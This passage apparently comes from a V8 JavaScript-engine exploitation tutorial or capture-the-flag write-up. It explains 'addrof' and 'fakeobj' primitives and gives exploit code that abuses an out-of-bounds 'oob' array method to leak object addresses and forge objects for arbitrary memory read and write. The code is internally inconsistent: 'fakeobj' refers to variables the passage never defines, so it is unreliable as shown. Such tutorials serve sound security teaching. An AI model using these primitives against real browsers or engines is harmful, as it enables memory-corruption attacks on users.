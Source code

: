 Success! In JS engine exploitation terminology, this is what is called an `addrof` primitive. The inverse of this (if we put a memory address at index 0 of our float array and change its map to that of the object array) is called a `fakeobj` primitive, as it allows you to place a fake object anywhere in memory in order to read from and write to it. We can place this fake object in a memory region where we can control it's Map and `elements` pointer, so we can easily read from and write to arbitrary memory addresses.

For now, we can add these to our `exploit.js` script as the `addrof` and `fakeobj` functions, as follows:
```javascript
/// Construct addrof primitive
var temp_obj = {"A":1};
var obj_arr = [temp_obj];
var fl_arr = [1.1, 1.2, 1.3, 1.4];
var map1 = obj_arr.oob();
var map2 = fl_arr.oob();

function addrof(in_obj) {
    // First, put the obj whose address we want to find into index 0
    obj_arr[0] = in_obj;

    // Change the obj array's map to the float array's map
    obj_arr.oob(map2);

    // Get the address by accessing index 0
    let addr = obj_arr[0];

    // Set the map back
    obj_arr.oob(map1);

    // Return the address as a BigInt
    return ftoi(addr);
}

function fakeobj(addr) {
    // First, put the address as a float into index 0 of the float array
    float_arr[0] = itof(addr);

    // Change the float array's map to the obj array's map
    float_arr.oob(obj_arr_map);

    // Get a "fake" object at that memory location and store it
    let fake = float_arr[0];

    // Set the map back
    float_arr.oob(float_arr_map);

    // Return the object
    return fake;
}
```
